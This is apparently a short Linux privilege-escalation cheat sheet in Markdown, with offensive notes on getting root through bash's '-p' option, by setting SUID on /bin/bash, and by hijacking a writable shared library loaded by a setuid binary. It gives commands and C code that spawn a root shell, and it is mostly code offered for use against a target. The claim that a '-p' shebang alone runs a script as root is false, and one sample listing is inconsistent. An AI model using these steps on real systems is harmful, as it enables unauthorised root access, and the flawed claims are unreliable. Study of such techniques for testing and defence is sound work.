 <br />

## Execute Commands as Root Privilege

### Change Shebang in Shell Script

Add "-p" option at the first line to execute the script as root privilege.

```sh
#!/bin/bash -p
whoami
```

### Use the Set User ID (SUID)

If you can change permission of the **/bin/bash** , add **SUID** to the file.

```sh
chmod 4755 /bin/bash
```

Then you execute it as root privilege by adding "-p" option.  
You'll be able to pwn the target shell.

```sh
user@machine:~/$ /bin/bash -p
root@machine:~/$ whoami
root
```

<br />

## Shared Library Exploitation

When we find the binary file as setuid or sudo command, check the strings of the binary file.

```bash
strings ./example

...
foo.so
...
```

If the binary file uses a shared library (e.g. foo.so) and this library can be modified, we can update it and get a root shell.

```bash
find / -type f -name "foo.so" 2>/dev/null
ls -al /path/to/foo.so

drwxrwxrwx 1 user user 64 Dec 15 09:13 foo.so
```

Create ‘foo.c’. 

```c
#include <stdlib.h>
#include <unistd.h>

void foo() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```
